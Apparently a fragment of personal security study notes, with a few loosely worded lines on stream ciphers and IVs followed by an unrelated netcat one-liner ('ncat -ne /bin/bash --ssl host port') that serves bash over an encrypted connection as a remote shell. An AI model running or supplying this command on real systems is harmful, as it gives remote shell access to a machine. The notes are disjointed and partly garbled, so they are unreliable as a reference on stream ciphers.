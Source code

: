 Stream ciphers do not need to pad byte alignments or chain output together different blocks as a seeding or nonce value.

Stream ciphers do not need a specific block size, they feedback on the bit level.

Stream cipher with a shared encryption key

An IV will be used to provide initial randomness to the stream.

# netcat again
ncat -ne /bin/bash –ssl host port


